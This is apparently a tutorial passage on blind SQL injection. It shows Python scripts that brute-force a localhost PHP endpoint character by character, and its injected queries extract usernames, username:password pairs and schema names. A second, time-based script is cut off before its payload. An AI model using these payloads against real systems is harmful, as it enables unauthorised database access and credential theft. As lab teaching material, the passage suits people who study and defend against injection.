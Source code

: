 ```python

    extracted_info = ""

    for position in range(1, 50):
        for character in range(33, 126):
	        # We will do this with a non existing id, in this case '9'
            sqli_url = main_url + "?id=9 or (select(select ascii(substring(username,%d,1)) from users where id = 1)=%d)" % (position, character)

			# We can get more complex results. In this case we will retrieve all username:password in users
			# sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password) from users),%d,1)) from users where id = 1)=%d)" % (position, character)
					
			# In this case we will retrieve all username:password in users
			# sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)

            p1.status(sqli_url)

            r = requests.get(sqli_url)

            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':
    makeSQLI()

```

We can test *Time-based blind SQL Injection* too. In this type of injections, we can know if the character is valid or not depending on the response time. Look at the example below:

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
  
signal.signal(signal.SIGINT, def_handler)
  
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)  

    p2 = log.progress("Datos extraidos")
  
    extracted_info = ""
  
```